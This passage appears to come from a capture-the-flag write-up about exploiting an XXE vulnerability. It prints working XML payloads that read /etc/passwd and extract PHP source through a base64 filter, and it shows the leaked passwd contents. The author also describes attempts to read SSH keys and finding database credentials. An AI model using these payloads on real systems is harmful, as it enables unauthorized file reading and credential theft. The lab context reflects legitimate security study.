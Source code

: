 ```html

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<root><name>1</name><search>&xxe;</search></root>
```

Gave me the content of `/etc/passwd` in the response.
```html
Sorry, account number root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
cyber:x:1000:1000:cyber,,,:/home/cyber:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
yash:x:1002:1002:,,,:/home/yash:/bin/bash
 is not active!
```

From there I tried to read `.ssh/id_rsa` on both users. I checked for `flag.txt` or `user.txt` also. Then I tried reading the Apache logs. They all came back empty.

Next I tried to get the PHP files. I had to get them as Base64 to extract them.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "php://filter/convert.base64-encode/resource=admin.php" >]>
<root><name>1</name><search>&xxe;</search></root>
```

Most of them where not interesting. Except for some database credentials. But MySQL was not exposed to the outside.
